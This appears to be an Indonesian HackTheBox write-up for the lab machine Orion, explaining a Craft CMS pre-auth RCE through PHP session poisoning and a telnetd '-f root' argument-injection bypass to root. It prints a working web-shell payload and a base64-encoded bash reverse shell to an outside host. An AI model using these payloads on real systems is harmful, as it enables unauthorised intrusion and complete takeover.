






# Orion — HackTheBox Writeup

**Target:** Orion  
**Platform:** HackTheBox  
**Difficulty:** Easy  
**Kategori:** Web Enumeration, Craft CMS, Pre-Authentication Remote Code Execution, Session Poisoning, PHP Object Injection, Telnet, Argument Injection, Authentication Bypass, Privilege Escalation

---

## Recon

Seperti biasa, tahap awal dimulai dengan pemindaian service menggunakan Nmap untuk memetakan attack surface yang tersedia.

```bash
sudo nmap -sC -sV TARGET_IP -o nmap -v
```



Dari hasil scanning terlihat bahwa service web pada port 80 mengarahkan setiap request ke hostname `orion.htb`. Pola ini menandakan aplikasinya berjalan sebagai virtual host: tanpa hostname tersebut ter-resolve ke IP target, request hanya akan mendarat di halaman default nginx. Karena itu hostname tersebut dimasukkan lebih dulu ke file host.

```bash
sudo vim /etc/hosts
```


Halaman yang tampil adalah portal perusahaan dengan halaman login admin di dalamnya. Karena hasil scanning mengarahkan ke satu aplikasi web dengan halaman login, fokus enumerasi diarahkan ke aplikasi tersebut, dan karena ini aplikasi berbasis CMS yang endpoint-nya banyak, enumerasi direktori dijalankan di background sambil halaman depannya ditelusuri manual, supaya waktu tunggu tool tidak terbuang percuma.

---

## Web Enumeration

```bash
gobuster dir -u http://orion.htb/ -w $seclists/Discovery/Web-Content/raft-small-words.txt
```



Gobuster menemukan `/admin` yang merupakan login portal, sekaligus membocorkan versi stack yang dipakai, yaitu **Craft CMS 5.6.16**.



Versi yang spesifik ini sebenarnya temuan yang jauh lebih bernilai daripada daftar direktorinya. Sebuah control panel admin selalu berarti permukaan serangan tambahan di belakang autentikasi, dan pada CMS halaman login seperti itu umumnya dapat diakses tanpa kredensial apa pun. Selain itu, CMS yang menyebutkan versinya secara eksplisit membuat pemetaan CVE menjadi pekerjaan yang deterministik: yang perlu dilakukan hanya mencocokkan versi tersebut dengan riwayat kerentanan Craft CMS, bukan menebak-nebak kelas bug yang mungkin ada.

---

## Initial Foothold — Craft CMS Pre-Auth RCE (CVE-2025-32432)

Dari riset versi, Craft CMS 5.6.16 diketahui terdampak **CVE-2025-32432**, sebuah pre-authentication remote code execution dengan rating critical. Untuk eksekusinya digunakan repo PoC publik berikut.

```text
https://github.com/c0gnit00/CVE-2025-32432
```

Akar masalahnya ada pada cara Yii2 sebagai framework di balik Craft menangani attachment behavior. Sebuah komponen bisa disisipi behavior lewat key dengan prefix `as `, misalnya `as test`, dan pemrosesannya di `Component::__set()` melakukan dua hal yang tidak konsisten satu sama lain.

Pertama, validasi kelas dilakukan terhadap key `class` dengan `is_subclass_of($value['class'], Behavior)`. Key ini harus berisi subclass `yii\base\Behavior` yang sah, dan di payload diisi `craft\behaviors\FieldLayoutBehavior` supaya lolos pemeriksaan. Kedua, instansiasi objek diserahkan ke `Yii::createObject()`, dan fungsi itu membaca key `__class` **lebih dulu** sebelum key `class`. Artinya kelas yang benar-benar diinstansiasi ditentukan oleh key yang tidak pernah divalidasi.

Hasilnya type confusion: yang diperiksa satu kelas, yang dijalankan kelas lain. Endpoint yang membuka jalur ini adalah `POST /index.php?p=admin/actions/assets/generate-transform` dengan body JSON berisi `assetId` dan `handle`. Nilai `handle` mengalir ke `ImageTransforms::normalizeTransform()`, lalu `ImageTransform::__construct()`, lalu `App::configure()`, dan berakhir di `Component::__set()`. Satu detail teknis yang perlu diperhatikan: endpoint tersebut mengembalikan 404 kalau `assetId` tidak ada, sehingga ID asset yang valid harus ditemukan lebih dulu — pada mesin ini ID `1` valid — supaya payload benar-benar masuk ke jalur instansiasi.

Instansiasi objek arbitrer saja belum cukup untuk eksekusi kode, karena masih dibutuhkan gadget chain yang berujung pada eksekusi. Ada satu detail yang mudah terlewat di tahap ini: walaupun kerentanan ini pre-authentication, action pada endpoint tersebut tetap memvalidasi token CSRF. Token itu harus diambil lebih dulu dari halaman login, bersama cookie session yang diberikan pada response yang sama, sebab ID pada cookie itulah yang nantinya menentukan nama file session yang diracun. Dua rantai gadget dipakai bersamaan di repo tersebut, dan keduanya saling melengkapi.

- `GuzzleHttp\Psr7\FnStream` dengan properti `_fn_close`, sebab destructor kelas ini memanggil `call_user_func(_fn_close)` sehingga fungsi apa pun bisa dijalankan saat objeknya dihancurkan. Rantai ini dipakai untuk membuktikan endpoint memang bisa menginstansiasi kelas sembarang.
- `yii\rbac\PhpManager` dengan properti `itemFile`, sebab komponen ini melakukan `require_once` terhadap file yang ditunjuk. Dengan mengarahkan `itemFile` ke sebuah file yang isinya bisa dikendalikan, PHP di dalam file tersebut akan dieksekusi.

File yang dirujuk sebagai target adalah file session PHP milik penyerang, dan mengisinya tidak memerlukan autentikasi sama sekali. Saat pengguna anonim membuka halaman admin, Craft menyimpan URL yang diminta sebagai `returnUrl` di dalam session. URL itu diserialisasi apa adanya, sehingga parameter pada query string ikut tertulis ke file session tanpa sanitasi. Dengan menaruh tag PHP pada parameter `a`, isi file session berubah menjadi campuran data serialisasi dan kode PHP.

```text
/var/lib/php/sessions/sess_<CraftSessionId>
__returnUrl|s:...:"http://orion.htb/index.php?p=admin/dashboard&a=<?=passthru($_GET["cmd"]);die()?>";
```

Kombinasi keduanya menghasilkan eksekusi penuh: `PhpManager.itemFile` diarahkan ke file session yang sudah diracun, dan command dikirim lewat parameter `cmd`, sesuai dengan payload `passthru($_GET["cmd"])` yang tertanam di file session.

```bash
python exploit.py -u http://orion.htb/ -c "echo 'YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTUuNzYvOTAwNCAwPiYxJw==' | base64 -d | bash"
```



Perintah di atas menghasilkan reverse shell dengan konteks user `www-data`. Sebagai catatan versi, bug ini diperbaiki pada Craft CMS 3.9.15+, 4.14.15+, dan 5.6.17+, sehingga versi 5.6.16 yang dipakai target berada tepat satu rilis sebelum patch.

---

## Enumerasi sebagai www-data

Setelah berada di dalam mesin, enumerasi diarahkan ke layanan yang tidak terekspos ke jaringan luar. Dari hasil pengecekan terlihat ada port 23 yang hidup, yang berarti service telnet berjalan di mesin tersebut. Verifikasi versinya dilakukan langsung dari dalam shell.

```bash
telnet -V
```



Mesin ini menggunakan telnet 2.7. Fakta bahwa layanan tersebut hanya hidup secara internal dan tidak muncul pada hasil scanning awal membuatnya mudah terlewat: jalur masuknya bukan dari jaringan, melainkan dari shell yang sudah didapat sebelumnya. Layanan yang hanya terikat ke loopback biasanya dianggap tidak dapat dijangkau dari luar, sehingga sering luput dari hardening. Begitu akses shell didapat, proteksi itu hilang dengan sendirinya, karena apa pun yang dapat dijangkau localhost menjadi dapat dijangkau penyerang.

---

## Privilege Escalation — GNU InetUtils telnetd Authentication Bypass (CVE-2026-24061)

Riset terhadap versi telnet tersebut menghasilkan **CVE-2026-24061**, sebuah authentication bypass pada GNU InetUtils telnetd.

```text
https://www.offsec.com/blog/cve-2026-24061/
```

CVE ini merupakan authentication bypass pada GNU InetUtils telnetd akibat argument injection (CWE-88). Input USER tidak divalidasi dengan benar sehingga dapat diproses sebagai opsi `-f` oleh program login. Pada `login`, opsi `-f` berarti memaksa login terhadap user yang disebutkan tanpa meminta password — dan itulah yang membuat autentikasi bisa dilewati sepenuhnya.

Payload yang dibutuhkan sangat pendek.

```bash
USER='-f root' telnet -a 127.0.0.1
```

Karena telnetd menerima koneksi dari loopback dan variabel `USER` berisi string yang dimulai dengan tanda minus, nilainya diperlakukan sebagai opsi program login, bukan sebagai nama user. Argumen `-f root` diteruskan ke `login`, sehingga sesi yang terbentuk langsung menjadi milik root.



Input USER memicu argument injection pada telnetd, melewati autentikasi, dan memberikan akses root. Keberhasilan diverifikasi dengan menjalankan `id`, yang menunjukkan `uid=0(root)`.